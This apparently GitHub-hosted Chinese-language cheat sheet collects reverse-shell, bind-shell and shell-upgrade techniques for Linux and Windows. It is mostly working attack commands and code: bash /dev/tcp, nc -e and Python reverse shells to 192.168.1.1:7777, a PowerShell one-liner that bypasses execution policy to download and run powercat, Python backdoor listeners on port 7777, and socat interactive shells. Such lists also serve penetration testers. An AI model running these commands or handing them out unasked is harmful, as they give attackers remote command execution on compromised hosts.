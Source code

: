# 反弹/正向 Shell & 升级交互式Shell (Linux&Win)

## 0x01 反弹shell

### Linux

等待反弹的shell会话主机：192.168.1.1:7777  
#### bash
  
```
/bin/bash -i >& /dev/tcp/192.168.1.1/7777 0>&1     
```
#### nc
```
nc -e /bin/bash 192.168.1.1 7777  
```
#### python 
新建python脚本执行     
或者通过python -c ''    
```
import os;os.system("bash -c 'bash -i >& /dev/tcp/192.168.1.1/7777 0>&1'")
```
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

### Windows
#### powercat 
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1    
```
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.1.1 -p 9999 -e cmd.exe"   
```
## 0x02 正向shell

### python on windows
>监听在7777端口，可以通过nc连接
```python
from socket import *
import subprocess
import os, threading

def send(talk, proc):
        import time
        while True:
                msg = proc.stdout.readline()
                talk.send(msg)

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',7777))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen('cmd.exe /K', stdin=subprocess.PIPE, 
                stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        t = threading.Thread(target = send, args = (talk, proc))
        t.setDaemon(True)
        t.start()
        while True:
                cmd=talk.recv(1024)
                proc.stdin.write(cmd)
                proc.stdin.flush()
        server.close()
```
### python on linux
>监听在7777端口，可以通过nc连接
```
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',7777))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```

## 0x03 提升shell交互能力

### Linux
#### python
它可以执行命令su，以为他们是在一个合适的终端执行。要升级一个shell，只需运行以下命令：     
```
python -c 'import pty; pty.spawn("/bin/bash")'

```
#### socat(反弹交互式shell)
本机监听(192.168.0.1):   
```
socat file:`tty`,raw,echo=0 tcp-listen:8888
```
目标主机:   
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.0.1:8888   
```
如果没有安装socat。有独立的二进制文件可以从这个Github下载：https://github.com/andrew-d/static-binaries    

## Ref 
- [将简单的shell升级为完全交互式的TTY](https://www.4hou.com/posts/mQ7R)
- [python正向连接后门](https://www.leavesongs.com/PYTHON/python-shell-backdoor.html)
